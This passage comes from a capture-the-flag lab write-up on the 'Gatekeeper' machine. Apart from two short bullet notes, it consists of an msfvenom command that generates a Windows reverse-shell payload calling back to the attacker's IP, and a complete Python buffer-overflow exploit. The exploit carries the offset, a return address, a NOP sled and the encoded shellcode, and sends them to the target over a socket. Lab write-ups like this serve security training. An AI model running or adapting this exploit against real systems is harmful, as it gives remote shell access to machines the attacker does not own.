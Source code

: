 - send once more for reverse shell hopefully

![0xskar](/assets/gatekeeper10.png)

- now we can update the exploit with new msfvenom output with openvpn ip and run it against our target

- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -b "\x00\x0a" -f c`` 

```python
import socket
import sys

offset = 146
payload = b"A" * offset + b"\xc3\x14\x04\x08" + b"\x90" * 32
shellcode = (b"\xdb\xce\xba\xb4\xdf\x8f\x12\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
b"\x52\x31\x56\x17\x83\xee\xfc\x03\xe2\xcc\x6d\xe7\xf6\x1b\xf3"
b"\x08\x06\xdc\x94\x81\xe3\xed\x94\xf6\x60\x5d\x25\x7c\x24\x52"
b"\xce\xd0\xdc\xe1\xa2\xfc\xd3\x42\x08\xdb\xda\x53\x21\x1f\x7d"
b"\xd0\x38\x4c\x5d\xe9\xf2\x81\x9c\x2e\xee\x68\xcc\xe7\x64\xde"
b"\xe0\x8c\x31\xe3\x8b\xdf\xd4\x63\x68\x97\xd7\x42\x3f\xa3\x81"
b"\x44\xbe\x60\xba\xcc\xd8\x65\x87\x87\x53\x5d\x73\x16\xb5\xaf"
b"\x7c\xb5\xf8\x1f\x8f\xc7\x3d\xa7\x70\xb2\x37\xdb\x0d\xc5\x8c"
b"\xa1\xc9\x40\x16\x01\x99\xf3\xf2\xb3\x4e\x65\x71\xbf\x3b\xe1"
b"\xdd\xdc\xba\x26\x56\xd8\x37\xc9\xb8\x68\x03\xee\x1c\x30\xd7"
b"\x8f\x05\x9c\xb6\xb0\x55\x7f\x66\x15\x1e\x92\x73\x24\x7d\xfb"
b"\xb0\x05\x7d\xfb\xde\x1e\x0e\xc9\x41\xb5\x98\x61\x09\x13\x5f"
b"\x85\x20\xe3\xcf\x78\xcb\x14\xc6\xbe\x9f\x44\x70\x16\xa0\x0e"
b"\x80\x97\x75\x80\xd0\x37\x26\x61\x80\xf7\x96\x09\xca\xf7\xc9"
b"\x2a\xf5\xdd\x61\xc0\x0c\xb6\x87\x17\x71\xa7\xf0\x15\x8d\x39"
b"\x60\x93\x6b\x2f\x72\xf5\x24\xd8\xeb\x5c\xbe\x79\xf3\x4a\xbb"
b"\xba\x7f\x79\x3c\x74\x88\xf4\x2e\xe1\x78\x43\x0c\xa4\x87\x79"
b"\x38\x2a\x15\xe6\xb8\x25\x06\xb1\xef\x62\xf8\xc8\x65\x9f\xa3"
b"\x62\x9b\x62\x35\x4c\x1f\xb9\x86\x53\x9e\x4c\xb2\x77\xb0\x88"
b"\x3b\x3c\xe4\x44\x6a\xea\x52\x23\xc4\x5c\x0c\xfd\xbb\x36\xd8"
b"\x78\xf0\x88\x9e\x84\xdd\x7e\x7e\x34\x88\xc6\x81\xf9\x5c\xcf"
b"\xfa\xe7\xfc\x30\xd1\xa3\x0d\x7b\x7b\x85\x85\x22\xee\x97\xcb"
b"\xd4\xc5\xd4\xf5\x56\xef\xa4\x01\x46\x9a\xa1\x4e\xc0\x77\xd8"
b"\xdf\xa5\x77\x4f\xdf\xef")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.67.40',31337))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```
